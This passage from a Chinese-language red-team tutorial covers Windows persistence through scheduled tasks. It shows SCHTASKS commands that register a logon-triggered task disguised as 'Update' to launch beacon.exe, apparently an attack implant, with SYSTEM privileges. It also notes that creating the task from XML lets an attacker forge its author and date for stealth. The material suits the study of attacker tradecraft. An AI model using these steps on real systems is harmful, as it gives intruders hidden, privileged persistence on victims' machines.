 或者重新登陆后以 SYSTEM 权限运行任务，SYSTEM 完整性级别。

![创建任务计划以 SYSTEM 权限运行.png](assets/1708583418-9a8e40cfc9e4c5455577f9f605e86cde.png)

不指定就默认以当前创建任务的账户，中等完整性级别。

```bash
PS C:\Users\123> SCHTASKS /Create /SC ONLOGON /TN Update /TR C:\Users\123\Desktop\beacon.exe
成功: 成功创建计划任务 "Update"。
```

![创建任务计划以当前用户权限运行.png](assets/1708583418-8a53e477cba0228b6dc67b641ce06399.png)

在不需要任务计划时，可手动删除。

```bash
PS C:\Users\123> SCHTASKS /Delete /TN Update /F
成功: 计划的任务 "Update" 被成功删除。
```

#### 2.1.2 XML 创建任务

前面通过 SCHTASKS 命令创建的任务，描述、创建者、创建时间都不能通过选项自定义，使用命令创建不够隐蔽，解决起来有两种解决方案，第一种可能要从 [Windows API 创建](https://learn.microsoft.com/en-us/windows/win32/taskschd/daily-trigger-example--c---)才行，第二种是通过 XML 创建任务。

为了先了解 XML 创建任务的标签结构，先创建一个以当前用户运行的任务计划。

```bash
PS C:\Users\123> SCHTASKS /Create /SC ONLOGON /TN Update /TR C:\Users\123\Desktop\beacon.exe /RU SYSTEM
成功: 成功创建计划任务 "Update"。
```

查询任务以 XML 显示，输出重定向到文件。

```bash
PS C:\Users\123> SCHTASKS /Query /TN Update /XML > desktop/update.xml
```

update.xml.

```xml
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.2"
    xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
    <RegistrationInfo>
        <Date>2023-04-26T16:56:44</Date>
        <Author>DESKTOP-AKRQV41\123</Author>
        <URI>\Update</URI>
    </RegistrationInfo>
    <Principals>
        <Principal id="Author">
            <UserId>S-1-5-18</UserId>
        </Principal>
    </Principals>
    <Settings>
```